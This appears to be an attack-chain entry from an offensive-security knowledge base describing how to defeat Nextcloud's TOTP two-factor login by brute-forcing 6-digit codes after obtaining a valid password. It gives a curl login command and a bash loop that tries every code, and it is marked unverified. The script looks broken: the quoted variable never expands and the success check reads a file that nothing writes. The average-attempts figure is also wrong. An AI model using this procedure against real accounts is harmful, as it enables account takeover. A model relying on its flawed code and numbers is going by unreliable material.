

---
tags:
  - brute-force
  - 2fa
  - totp
  - nextcloud
  - authentication
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Brute-Force-Nextcloud-TOTP-2FA]]'
step_count: 2
techniques:
  - '[[Brute Force]]'
updated_at: '2025-12-14T17:24:47.820Z'
description: >-
  Attack chain exploiting the absence of brute force protection in Nextcloud's
  TOTP-based 2FA, allowing unlimited guesses of 6-digit codes after valid
  primary credentials.
skill_level: intermediate
impact_level: medium
id: 0befdb96-0509-4844-a16a-137b69bcb502
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Brute Force]]'
---
# Brute Force Attack on Nextcloud TOTP 2FA Without Rate Limiting

Multi-stage attack chain demonstrating exploitation of missing rate limiting in Nextcloud's TOTP 2FA, enabling attackers to guess 6-digit codes unlimited times after entering valid username and password.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[commands/curl-nextcloud-login-attempt]]

### Target Environment

- Nextcloud instance (PHP-based web application)
- Exposed login endpoint over HTTP/HTTPS
- No additional services or ports required beyond standard web access

### Initial Access Requirements

- Knowledge of valid username and password for the target account
- Network access to the Nextcloud login page
- No prior access needed beyond reaching the web interface

## Detailed Attack Procedures

### Step 1: Access TOTP 2FA Login Endpoint
procedure: [[procedures/Brute-Force-Nextcloud-TOTP-2FA]]

**Objective**: Reach the 2FA prompt by submitting valid primary credentials to identify the TOTP submission mechanism.

**Instructions**: Navigate to the Nextcloud login page (typically at `/login` or root) and enter the known username and password. This triggers the TOTP challenge without any initial restrictions.

Use [[commands/curl-nextcloud-login-attempt]] to simulate the primary login:

```bash
curl -X POST 'https://nextcloud.example.com/login.php' \
  -d 'user=username' \
  -d 'password=knownpassword' \
  -c cookies.txt
```

**Expected Output**: Response indicating successful primary authentication and redirection to TOTP prompt, with session cookies stored.

**Success Indicators**:
- TOTP input field appears
- No errors on credential submission

### Step 2: Brute Force TOTP Codes
procedure: [[procedures/Brute-Force-Nextcloud-TOTP-2FA]]

**Objective**: Submit multiple 6-digit TOTP codes repeatedly to guess the correct one, exploiting the lack of rate limiting or lockout.

**Instructions**: After reaching the 2FA prompt, attempt various 6-digit codes (e.g., 000000 to 999999) in sequence. Automate with a script using [[commands/curl-nextcloud-login-attempt]] in a loop:

```bash
for code in {000000..999999}; do
  printf "%06d\n" $code | while read totp; do
    curl -X POST 'https://nextcloud.example.com/login.php' \
      -b cookies.txt \
      -d 'totp_challenge=$totp' \
      --max-time 5
    if grep -q "success" response.html; then
      echo "Success with code: $totp"
      break
    fi
  done
 done
```

Observe no delays, CAPTCHAs, or lockouts after hundreds of attempts.

**Expected Output**: After ~100,000 attempts on average (for a random 6-digit code), successful login response granting access to the account.

**Success Indicators**:
- Account access granted without interruptions
- No error messages indicating limits exceeded

## Attack Chain Summary

### Key Achievements

1. Bypassed 2FA through exhaustive guessing due to missing protections
2. Demonstrated potential for unauthorized access with compromised primary credentials
3. Highlighted medium-severity risk in Nextcloud deployments

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Brute Force]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
